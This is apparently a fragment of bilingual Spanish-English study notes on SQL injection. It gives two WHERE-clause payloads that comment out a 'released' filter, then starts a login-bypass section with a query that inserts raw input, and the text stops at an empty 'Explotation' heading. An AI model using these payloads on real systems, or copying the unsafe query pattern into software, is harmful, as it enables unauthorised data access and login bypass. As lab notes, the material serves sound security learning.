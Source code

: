 ![](/img2/Pasted%20image%2020250707130723.png)

- Injection (OPTION 1)

```sql
SELECT * FROM products WHERE category = 'test' or released=0-- -' AND released = 1
```

- Injection (OPTION 2)

```sql
SELECT * FROM products WHERE category = 'test' or 1=1-- -' AND released = 1
```

## Bypass de login mediante Inyección SQL || SQL injection vulnerability allowing login bypass

- Query SQL

```sql
SELECT username FROM users WHERE password = '$INPUT$'
```

- Explotation
